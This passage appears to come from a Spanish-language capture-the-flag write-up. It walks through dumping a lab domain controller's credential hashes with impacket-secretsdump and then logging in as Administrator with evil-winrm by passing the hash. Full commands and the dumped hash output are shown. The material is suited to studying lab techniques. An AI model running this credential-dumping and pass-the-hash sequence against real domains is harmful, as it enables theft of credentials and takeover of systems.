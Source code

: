 ahora haremos un `impacket-secretsdump -k -no-pass DC.COOCTUS.CORP`

Una vez que hayamos hecho eso, debería volcar con éxito los hashes NTLM del usuario.

el hash que colocaras tendria que ser como este:

```bash
❯ impacket-secretsdump -k -no-pass DC.COOCTUS.CORP
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xe748a0def7614d3306bd536cdc51bebe
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7dfa0531d73101ca080c7379a9bff1c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
COOCTUS\DC$:plain_password_hex:ca5a968a566c9e87ed1996c113574152ea825f289bfc584a5e471ece821abaa5278be39b6bf2504be68731e9d47a0ae42959c77be51e20b36a38739cf2174d483cc8b7481e29daf3b2764b8b30c7bf073800b93ada31d0f706c631ea09368f18db54e9fea49d02c6628fce8376fe78d8fb34eef3ada0a61ab0adb63c63af095f6c34b29a451c900b6ace8550cec3d86bf79c093dd6d187116e5bb4ca5d04bb9521b1805782ad0d1b5699271c3824ee89f604a0a887fa33438f30bcd76b60f022fc97d979bb61a64824a49c7f9a20e7ae80e8f66cb7a41a04059eb54fd532ff3a4f7d3e74d9696609edd3a28c9420e6bd
COOCTUS\DC$:aad3b435b51404eeaad3b435b51404ee:726ee92a315d6d47b7553cb71a2b92a7:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xdadf91990ade51602422e8283bad7a4771ca859b
dpapi_userkey:0x95ca7d2a7ae7ce38f20f1b11c22a05e5e23b321b
[*] NL$KM 
 0000   D5 05 74 5F A7 08 35 EA  EC 25 41 2C 20 DC 36 0C   ..t_..5..%A, .6.
 0010   AC CE CB 12 8C 13 AC 43  58 9C F7 5C 88 E4 7A C3   .......CX..\..z.
 0020   98 F2 BB EC 5F CB 14 63  1D 43 8C 81 11 1E 51 EC   ...._..c.C....Q.
 0030   66 07 6D FB 19 C4 2C 0E  9A 07 30 2A 90 27 2C 6B   f.m...,...0*.',k
NL$KM:d505745fa70835eaec25412c20dc360caccecb128c13ac43589cf75c88e47ac398f2bbec5fcb14631d438c81111e51ec66076dfb19c42c0e9a07302a90272c6b
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:add41095f1fb0405b32f70a489de022d:::
```

#### Post Explotacion:

en la parte donde dice Administrador seleccionaran el hash que empieza con add, esta el que inicia con aad pero no, ustedes usaran el que dice add

ahora para lograr obtener una shell como administrador lo que haremos sera
 
`evil-winrm -i 10.10.206.226 -u Administrator -H 'add41095f1fb0405b32f70a489de022d'`

`-i` hace referencia a IP `-u` hace referencia a Usuario `-H` hace refencia a HASH
